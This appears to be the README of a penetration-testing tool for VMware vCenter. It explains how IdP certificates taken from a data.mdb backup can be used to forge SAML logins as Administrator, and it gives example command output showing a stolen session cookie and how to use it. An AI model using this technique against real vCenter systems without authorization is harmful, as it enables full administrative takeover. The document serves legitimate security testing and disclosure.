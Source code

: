 # vCenter SAML Login Tool
A tool to extract the IdP cert from vCenter backups and log in as Administrator

## Background
With root or administrative permissions, it is possible to extract the IdP certificates from the directory service information located within the data.mdb file on the VCSA host. These certificates are stored in cleartext and can be used to sign any SAML authentication request for any user - including the builtin Administrator.

We've commonly found vCenter backups that contain the data.mdb file as well as several critical CVEs have been released in the past year that lead to access to this file.

If you'd like to know more about several use cases for this tool and how we've used it to gain Administrative access to vCenter hosts check out our blog post: https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Usage
```
root@kali:~/vcenter# python3 vcenter_saml_login.py -p data.mdb -t 10.0.100.200
[*] Successfully extracted the IdP certificate
[*] Successfully extracted trusted certificate 1
[*] Successfully extracted trusted certificate 2
[*] Obtaining hostname from vCenter SSL certificate
[*] Found hostname vcsa.olympus for 10.0.100.200
[*] Initiating SAML request with 10.0.100.200
[*] Generating SAML assertion
[*] Signing the SAML assertion
[*] Attempting to log into vCenter with the signed SAML request
[+] Successfuly obtained Administrator cookie for 10.0.100.200!
[+] Cookie: VSPHERE-UI-JSESSIONID=06D1630719B4DE33A4CE653458911640
```

With the above cookie, visit the VCSA instance at https://\<VCSA>\/ui, add the cookie under the /ui path, and re-browse to https://\<VCSA\>/ui. 

## Demonstration
![](vcenter.gif)
